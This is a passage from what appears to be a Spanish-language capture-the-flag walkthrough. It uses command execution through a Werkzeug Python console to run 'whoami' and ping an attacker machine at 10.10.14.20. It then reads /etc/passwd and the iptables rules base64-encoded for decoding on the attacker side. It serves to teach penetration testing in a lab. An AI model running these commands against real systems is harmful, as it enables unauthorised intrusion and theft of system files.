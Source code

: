 En este caso la respuesta al lado del servidor es 
```bash
 0 
```
. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion

```bash
 os.popen(<command>).read() 
```
 para ver el output normal.

```python
os.popen('whoami').read()
#Output
'Werkzeug'
```

El comando funcionna. Ahora intentamos **pingear** nuestra maquina de atacante.

1. en la maquina de atacante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. En la consola interactiva python

    ```python
    os.system('ping -c 1 10.10.14.20')
    ```

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el comando

```bash
 os.popen('cat /etc/passwd').read() 
```
 nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recomienda encriptar la respuesta en base 64 para despues decodificarlo en la maquina de atacante con el comando

```bash
 echo "<cadena codificada en base64>" | base64 -d; echo 
```


```python
os.popen('base64 -w 0 /etc/passwd').read()
os.popen('base64 -w 0 /etc/iptables/rules.v4').read()
```

El iptables nos muestra con la linea 
```bash
 -A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP 
```
 que la maquina victima nos
va a rechazar todas las comunicaciones por **TCP**. Es por esta razon que no hemos creado directamente una reverse shell.
 ## Explotacion de vulnerabilidad & Ganando acceso {-}
